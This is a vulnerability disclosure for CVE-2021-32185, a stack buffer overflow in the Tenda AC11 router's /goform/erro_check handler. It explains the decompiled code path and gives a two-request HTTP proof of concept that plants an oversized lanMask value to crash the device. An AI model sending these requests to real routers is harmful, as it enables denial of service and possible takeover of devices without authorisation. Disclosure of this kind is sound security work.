


# Tenda Router AC11 Vulnerability

This vulnerability lies in the `/goform/erro_check` page which influences the lastest version of Tenda Router AC11. (FYI, lastest version of this product is [AC11_V02.03.01.104_CN](https://www.tenda.com.cn/download/detail-3163.html))

## Vulnerability description

There is a stack buffer overflow vulnerability in function `sub_80014DE0` (page `/goform/erro_check`).

This function uses `strcpy` to copy the string pointed by `v5` into a stack buffer pointed by `v27`. `v5` is directly retrived from the nvram variable `lan_netmask` without any security check.



the `lan_netmask` variable can be controlled by attacker by calling the function `sub_800CC270`(page `/goform/start_dhcp_server`) which gets in a parameter called `lanMask` into varialbe `v12`, which can then be used to assign to the `lan_netmask` variable.


If function `sub_80012558` returns zero,then the nvram variable `lan_netmask` will be set as `v12` 


In function `sub_80012558`,it will first get the original nvram variable of `lan_netmask` and compare with `v12`. In function `gstrcmp_0`,if two parameters are the same,it will return 0. So if `v12` is different from the original value of nvram variable `lan_netmask`,then the function `sub_80012558` will return 0.



So by first setting the `lan_netmask` and then requesting the page `/goform/erro_check`, the attacker can easily perform a **Deny of Service Attack** or **Remote Code Execution** with carefully crafted overflow data.

## POC

```plain
POST /goform/start_dhcp_server HTTP/1.1
Host: 192.168.0.1
Content-Length: 1043
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.66 Safari/537.36
Content-Type: application/x-www-form-urlencoded;
Accept: */*
Origin: http://192.168.0.1
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close

module1=wifiBasicCfg&lanMask=111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111&doubleBandUnityEnable=false&wifiTotalEn=true&wifiEn=true&wifiSSID=Tenda_B0E040&wifiSecurityMode=WPAWPA2%2FAES&wifiPwd=Password12345&wifiHideSSID=false&LEDCloseTIme=1270219&wifiEn_5G=true&wifiSSID_5G=Tenda_B0E040_5G&wifiSecurityMode_5G=WPAWPA2%2FAES&wifiPwd_5G=Password12345&wifiHideSSID_5G=false&module2=wifiGuest&guestEn=false&guestEn_5G=false&guestSSID=Tenda_VIP&guestSSID_5G=Tenda_VIP_5G&guestPwd=&guestPwd_5G=&guestValidTime=8&guestShareSpeed=0&module3=wifiPower&wifiPower=high&wifiPower_5G=high&module5=wifiAdvCfg&wifiMode=bgn&wifiChannel=auto&wifiBandwidth=auto&wifiMode_5G=ac&wifiChannel_5G=auto&wifiBandwidth_5G=auto&wifiAntijamEn=false&module6=wifiBeamforming&wifiBeaformingEn=true&module7=wifiWPS&wpsEn=true
```

```plain
POST /goform/erro_check HTTP/1.1
Host: 192.168.0.1
Content-Length: 103
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.66 Safari/537.36
Content-Type: application/x-www-form-urlencoded;
Accept: */*
Origin: http://192.168.0.1
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close
```

## Acknowledgment

Credit to [@Yu3H0](https://github.com/Yu3H0), [@1chig0](https://github.com/1chig0), and [@cpegg](https://github.com/cpeggg) from Shanghai Jiao Tong University  and TIANGONG Team of Legendsec at Qi'anxin Group.

## CVE ID
CVE-2021-32185